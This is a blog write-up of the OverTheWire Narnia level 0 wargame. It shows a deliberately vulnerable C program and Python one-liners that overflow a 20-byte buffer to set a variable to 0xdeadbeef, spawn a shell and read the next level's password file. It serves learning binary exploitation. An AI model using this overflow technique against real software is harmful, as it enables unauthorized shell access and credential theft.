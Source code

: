 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 0 -> 1"
subtitle:   "Write-Up"
date:       2017-01-01 0:00:00
author:     "W3ndige"
header-img: "img/overthewire-header.png"
category: Write-Ups
---
```


<h1>Introduction</h1>

<p>As a part of my New Year's resolutions I decided to improve my knowledge of binary exploitation, learn more by completing challenges from <a href="http://overthewire.org/wargames/">OverTheWire</a>, especially Narnia, as they are aimed to people wanting to learn about basics. </p>

<h1>Challenge</h1>

<p>Firstly, let's take a look at the code of this program. </p>

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>

int main(){
	long val=0x41414141;
	char buf[20];

	printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
	printf("Here is your chance: ");
	scanf("%24s",&buf);

	printf("buf: %s\n",buf);
	printf("val: 0x%08x\n",val);

	if(val==0xdeadbeef)
		system("/bin/sh");
	else {
		printf("WAY OFF!!!!\n");
		exit(1);
	}

	return 0;
}

{% endhighlight %}

<p>Okay, now we know that the binary accepts one string input from the user and puts the string into a buffer of 20 bytes, then if the value of variable <b>val</b> is equal to <b>0xdeadbeef</b>, we will get a shell. Let's try to send to 20 "A" characters, with 4 letters "B", in order to overflow the buffer, and overwrite the value of <b>0x41414141</b> with our "B" letters. </p>

{% highlight text %}
narnia0@melinda:/narnia$ python -c print'("A" * 20) + "BBBB"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAABBBB
val: 0x42424242
WAY OFF!!!!
narnia0@melinda:/narnia$
{% endhighlight %}

<p>Great, now we know that it works and we're one step closer to the solution. Now let's think how we can change value to <b>0xdeadbeef</b>. First thing to remember - the values need to be in hex format, not characters as I thought at first. In addition, I recalled that the bytes will be in reversed order, so we have to write them from the last to the first one. </p>

{% highlight text %}
narnia0@melinda:/narnia$ python -c print'("A" * 20) + "\xef\xbe\xad\xde"' | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef

{% endhighlight %}

<p>We got the shell but it closed immediately! Let's find a way to keep it running, in order to view the password to the next level. </p>

{% highlight text %}
narnia0@melinda:/narnia$ (python -c print'("A" * 20) + "\xef\xbe\xad\xde"'; cat /etc/narnia_pass/narnia1) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
cat: /etc/narnia_pass/narnia1: Permission denied
{% endhighlight %}

<p>Unfortunately, it closed too quickly and the command was executed after the shell had closed. I tried many other commands, and noticed something strange - <b>cat</b> seemed to do exactly what we want! </p>

{% highlight text %}
narnia0@melinda:/narnia$ (python -c print'("A" * 20) + "\xef\xbe\xad\xde"'; cat) | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: buf: AAAAAAAAAAAAAAAAAAAAﾭ�
val: 0xdeadbeef
whoami
narnia1
cat /etc/narnia_pass/narnia1
********
{% endhighlight %}

<p>But why is it working? From man page: </p>

<b>With no FILE, or when FILE is -, read standard input.</b>

<h1>Last words</h1>

<p>As I never tought before, this was a great challenge, and I think I got more interested in binary exploitation and reverse engineering. Can't wait to try out some other challenges, and I'll see you in the next one!</p>

<p>~ Stay safe!</p>
